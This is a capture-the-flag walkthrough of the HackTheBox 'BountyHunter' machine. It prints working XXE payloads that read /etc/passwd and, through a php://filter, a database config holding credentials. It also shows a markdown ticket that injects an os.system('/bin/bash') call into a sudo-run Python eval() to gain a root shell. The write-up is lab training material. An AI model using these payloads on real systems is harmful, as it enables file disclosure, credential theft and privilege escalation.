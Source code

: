 # BountyHunter CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **BountyHunter** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/BountyHunter). 
---

from scan we see open ports 22 and 80

![scn](imgs/scn.png "scn")

we can inspect main page

![pg](imgs/pg.png "pg")

if we head to `Portal` we see some other link

![pr](imgs/pr.png "pr")

we see a form, if we send the data, the same data is reflected in XML format

![fr](imgs/fr.png "fr")

![frr](imgs/frr.png "frr")

we can try simple XXE injection

```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY example "Doe"> ]>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>&example;</cvss>
		<reward>1337</reward>
		</bugreport>
```

![i](imgs/i.png "i")

it works and we can try other payloads, we can display /etc/passwd using 

```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>&ent;</cvss>
		<reward>1337</reward>
		</bugreport>
```

![pw](imgs/pw.png "pw")

sadly there isnt any private ssh key, we can try to display files that are serverd by the server

we can check the config file suggested by AI 

![c](imgs/c.png "c")
 
```
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>&xxe;</cvss>
		<reward>1337</reward>
		</bugreport>
```

it works we see some credentials

![db](imgs/db.png "db")

with password that we found we can login to ssh as development, we can also grab user flag

![us](imgs/us.png "us")

we see that we can run `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`

![sd](imgs/sd.png "sd")

we cam try to check the /opt directory

![opt](imgs/opt.png "opt")

if we inspect source code we see that this Python script reads and validates a `.md` file containing ticket data. If the ticket passes certain checks, it is marked as valid.

![s](imgs/s.png "s")

Vulnerability:

The vulnerability is in the eval() function, where the code uses eval() on user-controlled input from the file:

```
validationNumber = eval(x.replace("**", ""))
```

if we supply file like this we will gain root shell

![md](imgs/md.png "md")

```
# Skytrain Inc Ticket Validation System 0.1
## Ticket to Shell Access

__Ticket Code:__
**60+__import__('os').system('/bin/bash')**
```

![ti](imgs/ti.png "ti")

we got root access and root flag

![rt](imgs/rt.png "rt")

# MACHINE PWNED
